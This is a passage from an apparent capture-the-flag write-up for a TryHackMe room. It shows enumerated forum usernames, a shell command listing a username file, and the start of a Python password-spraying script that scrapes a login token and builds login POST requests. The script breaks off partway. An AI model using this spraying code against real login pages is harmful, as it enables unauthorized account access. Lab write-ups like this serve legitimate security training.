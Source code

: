 ```shell
[+] Found valid username: CrazyChris
[+] Found valid username: zample
[+] Found valid username: Linda_Kale
[+] Found valid username: BrucePrince
[+] Found valid username: Xavier
[+] Found valid username: AimsGregger
[+] Found valid username: Carl_Dee
[+] Found valid username: Paulie
[+] Found valid username: Daniel
[+] Found valid username: batmanZero
[+] Found valid username: Mr_nickapic
[+] Found valid username: TonyMontana
[+] Found valid username: LucyRob
[+] Found valid username: CaseBrax
[+] Found valid username: BlueMan
[+] Found valid username: Willis
[+] Found valid username: BracketBell
[+] Found valid username: SandraJannit
[+] Found valid username: Ellie
[+] Found valid username: biggieballo
[+] Found valid username: john
[+] Found valid username: Baggle
[+] Found valid username: Golderg
[+] Found valid username: JackBlack
[+] Found valid username: Anderson
[+] Found valid username: siunam
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.25|15:53:30(HKT)]
└> head -n 5 username.txt 
bigpaul
Wannabe_Hacker
SarahHunt
bubbaBIGFOOT
jscale
```

**Then we can start to do password spraying!**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
import re

class Sprayer:
    def __init__(self, url):
        self.__url = url

    def sendRequest(self, username, password):
        # Create a new requests session object
        session = requests.Session()
        
        # Fetch the my_post_key value
        my_post_keyRequestResult = session.get(self.__url)
        matched = re.search(r'var my_post_key = "([0-9a-f]+)";' , my_post_keyRequestResult.text)
        my_post_key = matched.group(1)
        
        # Construct POST requests
        loginData = {
            'username': username,
            'password': password,
```